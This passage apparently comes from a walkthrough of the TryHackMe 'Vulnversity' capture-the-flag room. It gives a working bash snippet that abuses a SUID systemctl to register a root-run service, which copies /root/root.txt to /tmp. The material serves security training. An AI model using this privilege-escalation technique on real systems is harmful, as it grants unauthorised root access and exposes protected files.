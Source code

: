 ![GTFOBins systemctl SUID](https://raw.githubusercontent.com/fartaviao/tryhackme-vulnversity/refs/heads/main/Screenshots/Screenshot-34.png)

- Open a new terminal, paste the code into a text editor and make the following changes:
```
nano systemctlsuid.txt
```

- It should look like this:

![Make the following changes](https://raw.githubusercontent.com/fartaviao/tryhackme-vulnversity/refs/heads/main/Screenshots/Screenshot-35.png)

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
